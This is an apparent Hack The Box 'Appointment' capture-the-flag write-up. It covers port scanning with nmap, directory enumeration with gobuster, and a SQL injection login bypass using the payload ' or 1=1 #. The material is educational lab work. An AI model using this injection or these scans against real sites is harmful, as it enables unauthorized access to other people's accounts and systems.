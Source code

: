 ```yaml
---
layout: post
title: appointment
categories: htb
tags:
- htb
- starting_point
- appointment
author: nicoliboli
description: starting point | tier 1 | box 0
date: '2025-06-26 17:37:30 -0400'
---
```

# enumeration

```
$ nmap 10.129.152.21               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 16:58 EDT
Nmap scan report for 10.129.152.21
Host is up (0.096s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds

$ nmap -p- -T5 10.129.152.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 16:58 EDT
Warning: 10.129.152.21 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.152.21
Host is up (0.097s latency).
Not shown: 63439 closed tcp ports (conn-refused), 2095 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 518.78 seconds

$ nmap -sC -sV -p 80 10.129.152.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 17:01 EDT
Nmap scan report for 10.129.152.21
Host is up (0.094s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```

## port 80

see if `gobuster` finds any interesting subdirecties or files

```
$ gobuster dir -u http://10.129.152.21 -w /usr/share/wordlists/dirb/common.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.152.21
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.152.21/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.152.21/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.152.21/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 311] [--> http://10.129.152.21/js/]
/server-status        (Status: 403) [Size: 278]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.152.21/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

nothing stands out there, so time to open the page in the web browser

![appointment_home](/assets/img/appointment_home.png)

# exploitation

try to login with a couple creds

[x] admin/admin
[x] root/root
[x] test/test

try a SQL injection to bypass the login. the check is probably a statement similar to `select * from users where username = 'USERNAME' and password = 'PASSWORD'` so the key is to enter a string of characters to make that statement always true. let's see if the application logs us in if there is no sanitization on the username. [this](https://portswigger.net/support/using-sql-injection-to-bypass-authentication) a pretty good resource on using SQLi to bypass login 

```
injection: ' or 1=1 #
username: admin
password: whatever
statement: select * from users where username = 'admin' or 1=1 #'' and password = 'whatever';
```

since the `'` and `#` characters are not sanitized, my statement ultimately reads `select * from users where username = 'admin' or 1=1 #` because of the comment. i don't even need the username, but it makes it more readable if its there. login and there is the flag

![apointment_login](/assets/img/appointment_login.png)

![appointment_flag](/assets/img/appointment_flag.png)